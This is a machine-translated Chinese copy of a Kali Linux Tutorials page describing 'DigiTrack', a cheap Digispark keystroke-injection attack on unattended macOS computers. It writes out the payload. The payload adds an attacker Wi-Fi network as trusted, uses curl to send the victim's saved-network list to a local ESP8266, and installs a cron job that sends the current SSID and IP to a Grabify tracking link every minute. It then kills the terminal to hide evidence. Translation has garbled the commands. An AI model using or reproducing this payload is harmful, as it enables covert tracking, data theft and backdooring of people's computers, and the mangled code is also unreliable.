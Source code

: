# DigiTrack:使用 Arduino 的 5 美元或更少的攻击

> 原文：<https://kalilinuxtutorials.com/digitrack/>

[![DigiTrack : Attacks For  or Less Using Arduino](img/e46645b55f05fcbc6bbbea9e0dcb5f46.png "DigiTrack : Attacks For  or Less Using Arduino")](https://1.bp.blogspot.com/-lVaLZKyWxYQ/Xosm6KwFBsI/AAAAAAAAF1U/9hL2r7HJNWsOc9G03kmudVvWokh8Dx4BQCLcBGAsYHQ/s1600/DigiTrack.png)

在 30 秒内， **DigiTrack** attack 可以学习一台 MacOS 电脑之前连接过哪些网络，每 60 秒植入一个跟踪当前 IP 地址和 Wi-Fi 网络的脚本。

它包括 hard tracker–Digispark VPN buster，可以每 60 秒钟将 MacOS 电脑上附近 Wi-Fi 网络的 IP 地址和 BSSID/SSID 发送到 Grabify 跟踪器。

**这是一次价值 5 美元的攻击，它做了几件事:**

*   在受害者计算机上插入 Wi-Fi 后门，允许您在 Wi-Fi 范围内的任何时候捕获受害者的数据连接。
*   窃取受害者曾经连接过的每个网络的列表(用于跟踪、分类和劫持数据连接)
*   插入一个跟踪作业，每 60 秒向 Grabify 链接发送一次 IP 地址和当前连接的网络。

**也可阅读-[CVE-2020-0796:Windows SMB v3 客户端/服务器远程代码执行漏洞](https://kalilinuxtutorials.com/cve-2020-0796/)**

**攻击过程:**受害者将一台 MacOS 电脑无人看管 30 秒。攻击者插入一个加载了攻击有效载荷的 DigiSpark 板。有效负载如下所示(删除了延迟和单次击键):

*   **digi keyboard . print(" network setup-setairport network en0 ' sneaker net ' 0000000 ")；**
    *   我们将网络“Sneakernet”添加到我们的可信网络列表中，并连接到它。
*   **digi keyboard . print(" curl-M10–silent–output/dev/null-X POST-H " Content-Type:text/plain–data " $(network setup-listpreferredwirelessnetworks en0)" 192 . 168 . 4 . 1&"；**
    *   连接后，我们向 esp8266 发送一个 CURL 请求，列出 MacOS 计算机过去连接过的每个网络，创建“Sneakernet”网络。&将这个过程放在后台，以防它花费太长时间，而-m 设置一个 10 秒的计时器来防止它花费太长时间。现在我们知道受害者加入了哪些 Wi-Fi 网络，哪些网络会在没有询问的情况下强制电脑连接。
*   **digi keyboard . print(" export VISUAL = nano；crontab-e”)；**
    *   我们创建一个每 60 秒执行一次的作业
*   **digi keyboard . print(" * * * * * * curl–silent–output/dev/null–referer " $(/System/Library/private frameworks/apple 80211 . framework/Versions/Current/Resources/airport-I | awk '/SSID/{ print substr $ 0，index $ 0，$ 2))} ')"[https://grabi/your link](https://grabi/YOURLINK)"；**
    *   我们抑制 CURL 的输出，抓取当前连接的 Wi-Fi 网络的网络名称。我们将它和 CURL 请求一起发送到一个跟踪 URL，每 60 秒发送一次目标的 IP 地址和当前连接的 Wi-Fi 网络。
*   **DigiKeyboard.print("等等&kill-9 $(PS-p $ PPID-o ppid =)")；**
    *   最后，我们等待所有后台进程完成，并杀死终端窗口的狗屎隐藏证据。

总运行时间约为 30 秒，不包括 Digisparks 等待草图上传的几秒钟。

注意: Grabify 可能会进入“我受到攻击”模式，并且不允许签入。寻找这一行:div class = " cf-browser-verification cf-im-under-attack "

如果您看到它，则该 IP 地址被 cloudflare 阻止。

[**Download**](https://github.com/skickar/DigiTrack)